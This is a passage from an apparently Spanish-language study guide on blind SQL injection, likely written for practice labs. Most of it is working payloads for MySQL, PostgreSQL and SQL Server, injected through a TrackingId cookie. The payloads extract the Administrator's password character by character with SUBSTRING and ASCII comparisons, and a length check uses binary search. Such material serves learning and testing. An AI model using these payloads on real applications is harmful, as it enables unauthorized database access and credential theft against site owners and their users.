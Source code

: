   ```sql
  ' AND (SELECT LENGTH(Password) FROM Users WHERE Username='Administrator') > 10 --
  ```

  aplicando búsqueda binaria para la longitud.

* Ten cuidado con límites de tamaño de consultas y con rate limits; muchos labs usan `ROWNUM` o `LIMIT` en subqueries para evitar múltiples filas.

---

## 9) Ejemplos concretos por SGBD (payloads)

**Nota:** ajustá comillas y final de comentario (`-- ` vs `--`) según SGBD y contexto. URL-encodea si usás GET.

### MySQL (string context, cookie):

* Comprobación básica:

```
TrackingId=xyz' AND '1'='1--
```

* Primer carácter > 'm':

```
TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='Administrator'),1,1) > 'm'--
```

* Usando ASCII:

```
TrackingId=xyz' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='Administrator'),1,1)) > 109--
```

### PostgreSQL:

* Usar `SUBSTRING(... FROM pos FOR 1)` o `SUBSTRING(...,pos,1)`:

```
TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='Administrator') FROM 1 FOR 1) = 's'--
```

* ASCII:

```
TrackingId=xyz' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='Administrator') FROM 1 FOR 1)) > 109--
```

### SQL Server (T-SQL):

```
TrackingId=xyz' AND ASCII(SUBSTRING((SELECT TOP 1 password FROM users WHERE username='Administrator'),1,1)) > 109--
```
